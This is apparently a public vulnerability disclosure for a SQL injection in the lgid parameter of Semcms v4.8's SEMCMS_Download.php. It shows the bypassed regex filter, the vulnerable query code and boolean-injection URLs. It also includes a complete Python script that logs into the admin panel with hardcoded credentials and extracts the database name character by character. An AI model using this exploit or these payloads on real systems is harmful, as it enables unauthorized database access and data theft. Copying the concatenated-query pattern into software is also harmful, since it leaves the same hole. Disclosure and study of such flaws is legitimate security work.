 # Semcms v4.8 SEMCMS_Download.php SQL Injection    with (lgid)



- **Exploit Title:**  Semcms v4.8 SEMCMS_Download.php SQL Injection with argument(lgid)
- **Date:** 2024-05-24
- **Vendor Homepage:** http://www.sem-cms.com/
- **Software Link:** [https://download.code-projects.org/details/d10e92aa-e37f-46fd-9bf8-45878956d7c0](http://www.sem-cms.com/TradeCmsdown/php/semcms_php_4.8.zip)
- **Version:** Semcmsv4.8



v4.8zip download link:http://www.sem-cms.com/TradeCmsdown/php/semcms_php_4.8.zip



## Vulnerability description

A SQL injection vulnerability exists in the SEMCMS v4.8 . The vulnerability results from a lack of validation of externally entered SQL statements in the SEMCMS_Download.php ,parameter  lgid. An attacker without an account could exploit this vulnerability to execute illegal SQL commands to obtain sensitive data from the database.



## Vulnerability analysis



filter function:

 the  code  in  include/contor.php  line 8

In the include directory of the project source code, there is a contorl. PHP file. When searching for the input_check_sql function in the file, you will find that it is a global SQL query string filtering function that uses regularization to match a series of commonly used characters in SQL statements, preg_match ('select | and | insert |=|% |<| between | update | \ '| \ * | union | intro | load_file | outfile/i', $sqlstr);
Select, and, insert,%,=,<, between, update, *, union, into, ', etc. are all filtered, and all SQL query statement strings will be passed as parameters to the $str variable before being called by the verify_str() function. When the user inputs, the verify_str() inner layer calls the input_check_sql() function for verification, which is like a global SQL statement validator.

![image-20240524182620951](img/image-20240524182620951.png)

```
function inject_check_sql($sql_str) {

     return preg_match('/select|and|insert|=|%|<|between|update|\'|\*|union|into|load_file|outfile/i',$sql_str); 
} 
function verify_str($str) { 
       if(inject_check_sql($str)) {
           exit('Sorry,You do this is wrong! (.-.)');
        } 
    return $str;
} 


```





The vulnerability code is  in SEMCMS_Download.php    line 68  :

```
 $sql=$db_conn->query("select * from sc_download where languageID=".$_GET["lgid"]."");     
 $all_num=mysqli_num_rows($sql); //总条数
```





payload: ID=1'  

 inject_check_sql() is called to determine whether sql injection exists

It runs inject_check_sql() statements through a series of contains, the logical chain is:：SEMCMS_Download.php->SEMCMS_TOP_include.php-> ./Include/inc.php->../Include/contorl.php



![image-20240524191636042](img/image-20240524191636042.png)





Through this Boolean judgment, it is found that if the logic judgment is true, the result is displayed, otherwise there is no content, and sql injection exists through this judgment

http://127.0.0.1:8002/e2aLvD_Admin/SEMCMS_Download.php?lgid=-1

http://127.0.0.1:8002/e2aLvD_Admin/SEMCMS_Download.php?lgid=-1%20or%201

![image-20240524191743856](img/image-20240524191743856.png)

![image-20240524191808864](img/image-20240524191808864.png)

Using python scripts, sql injection is performed to detect the database:

```
#!/usr/bin/python
# -*- coding: UTF-8 -*-
#!/usr/bin/python
# -*- coding: UTF-8 -*-
import requests

session = requests.session()
def login(url, username, password):
    burp0_url = url + "/SEMCMS_Top_include.php?CF=users&Class=login"
    burp0_cookies = {"scusername": "%E6%80%BB%E8%B4%A6%E5%8F%B7", "scuseradmin": "Admin",
                     "scuserpass": "c4ca4238a0b923820dcc509a6f75849b"}
    burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0",
                     "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
                     "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
                     "Accept-Encoding": "gzip, deflate", "Content-Type": "application/x-www-form-urlencoded",
                     "Origin": "http://127.0.0.1:8002", "Connection": "close",
                     "Referer": "http://127.0.0.1:8002/e2aLvD_Admin/index.html", "Upgrade-Insecure-Requests": "1",
                     "Sec-Fetch-Dest": "document", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-Site": "same-origin",
                     "Sec-Fetch-User": "?1"}
    burp0_data = {"UserName": username, "UserPass": password, "checkbox": "on", "x": "39", "y": "15"}
    re = session.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)
    if "欢迎使用黑蚂蚁" in re.text:
        print("登录成功")
    else:
        print("登录失败")


def get_db_len(url):
    """
	get database length
	"""
    for i in range(1, 50):
        i = str(i)
        if len(i) == 1:
            payload = "-1 or length(database()) REGEXP char(94,{},36)".format(ord(i))

        else:
            a = i[0]
            b = i[1]
            payload = "-1 or length(database()) REGEXP char(94,{},{},36)".format(ord(a), ord(b))

        url1 = url + payload
        resp = session.get(url1, timeout=3)
        if ".jpg" in resp.text:
            print("存在漏洞:",i)
            print(url1)
            return int(i)



def get_db_name(url):

    db_len = get_db_len(url)
    print("数据库长度:",db_len)


    print("数据库名:")
    for i in range(1, db_len + 1):
        for j in range(32, 127):
            j = str(j)
            a = j[0]
            b = j[1]
            if len(j) == 2:
                payload = "-1 or ascii(substr(database(),{},1)) REGEXP char(94,{},{},36)".format(i, ord(a),
                                                                                                 ord(b))

                # print("-1 or ascii(substr(database(),{},1)) REGEXP char(94,{},{},36)".format(i, ord(a), ord(b)))
            else:
                c = j[2]
                payload = "-1 or ascii(substr(database(),{},1)) REGEXP char(94,{},{},{},36)".format(i, ord(a),
                                                                                                    ord(b),
                                                                                                    ord(c))

                # print("-1 or ascii(substr(database(),{},1)) REGEXP char(94,{},{},{},36)".format(i, ord(a), ord(b),

            url1 = url + payload
            resp = session.get(url1, timeout=3)

            if ".jpg" in resp.text:
                print(chr(int(j)))
                print(url1)


# url = input("请输入后台url:")
# username = input("请输入用户名:")
# password = input("请输入密码:")
url="http://127.0.0.1:8002/e2aLvD_Admin"
# mode_len = session.get(url_test="", timeout=3)
username="Admin"
password='1'
login(url=url, username=username, password=password)

path2="/SEMCMS_Download.php?type=edit&lgid=1&page=1&ID="
path4="/SEMCMS_Download.php?lgid="
get_db_name(url=url + path4)
```



![image-20240524185958011](img/image-20240524185958011.png)

![image-20240524190140990](img/image-20240524190140990.png)